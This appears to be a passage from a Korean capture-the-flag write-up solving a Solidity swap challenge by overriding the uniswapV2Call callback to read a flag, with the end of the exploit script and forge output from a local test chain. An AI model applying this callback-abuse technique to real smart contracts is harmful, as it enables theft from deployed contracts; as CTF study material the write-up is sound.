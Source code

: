 ```solidity
        Ex ex = new Ex();
        ex.ex();

        vm.stopBroadcast();
    }
}

```

코드를 작성하던 도중 `swap` 함수에서 `uniswapV2Call` 함수가 구체적으로 정의가 되어 불러와진게 아닌 `interface`  를 통해 호출되어 있었다.
`uniswapV2Call` 함수를 `override`해서 FLAG의 값을 불러오게 할 수 있다는 것을 알았고 `receive`로 풀이하는 것보다 `override` 를 통해  FLAG 값을 가져오도록 한 뒤 `swap` 함수는 오류가 발생하지만 상관 없이 try catch로 날려 주었다.

```bash
$ forge script script/Exploit.sol:Exploit --broadcast --rpc-url http://127.0.0.1:12455 --private-key 0x59c6995e998f97a5a0044966f0945389dc9e86dae88c7a8412f4603b6b78690d
[⠊] Compiling...
[⠰] Compiling 1 files with Solc 0.8.29
[⠔] Solc 0.8.29 finished in 260.23ms
Compiler run successful with warnings:
Warning (5667): Unused function parameter. Remove or comment out the variable name to silence this warning.
  --> script/Exploit.sol:24:37:
   |
24 |     function uniswapV2Call(address, uint amount0Out, uint, bytes calldata) external override {
   |                                     ^^^^^^^^^^^^^^^

Warning (2018): Function state mutability can be restricted to pure
  --> src/Swap.sol:23:3:
   |
23 |   function _getExchange(uint amount0Out, uint amount1Out) public returns (uint) {
   |   ^ (Relevant source part starts here and spans across multiple lines).

Warning: Detected artifacts built from source files that no longer exist. Run `forge clean` to make sure builds are in sync with project files.
 - /home/mingw/contract-hacktheon/script/ExploitScript.s.sol
Script ran successfully.

== Logs ==
  FLAG:  FLAG{THIS_IS_FAKE_FLAG}

## Setting up 1 EVM.

==========================

Chain 31337

Estimated gas price: 0.266981935 gwei

Estimated total gas used for script: 1313610

Estimated amount required: 0.00035071013963535 ETH

==========================

##### anvil-hardhat
✅  [Success] Hash: 0xed31043ebf8e104ee72068750450bea6779c95b68cacf202df7e6c2e7c41f481
Block: 19
Paid: 0.000012110491581919 ETH (117379 gas * 0.103174261 gwei)

##### anvil-hardhat
✅  [Success] Hash: 0x77ee82294078a8cce1ff60eb0bce0a09e5056650195371a1cad40f96c73d5339
Contract Address: 0x0f5D1ef48f12b6f691401bfe88c2037c690a6afe
Block: 18
```